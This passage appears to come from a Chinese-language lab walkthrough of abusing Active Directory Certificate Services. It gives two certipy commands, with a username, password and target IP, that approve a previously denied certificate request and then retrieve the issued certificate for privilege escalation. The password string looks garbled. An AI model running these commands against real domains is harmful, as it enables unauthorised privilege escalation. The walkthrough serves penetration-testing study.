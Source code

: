 该请求将被拒绝，但我们将保存私钥并记下请求 ID。

再次请求

```plain
certipy ca -ca 'penson-ADCS-CA' -issue-request 33 -username qxn@penson.org -password Penson@2016 永遠的神 -target 192.168.142.21
```

[![](assets/1708508972-a3acd5cf1fda6b6b4735fb2110eca67e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170702-6903d9ac-cfcf-1.png)

最后，我们可以使用 req 命令和-retrieve <request id="">参数检索颁发的证书。</request>

```plain
certipy req -username qxn@penson.org -password Penson@2016 永遠的神 -ca penson-ADCS-CA -target 192.168.142.21 -retrieve 33
```

[![](assets/1708508972-20ed031323ce3c58d09d998fc51f7be8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170728-78ef2c5e-cfcf-1.png)
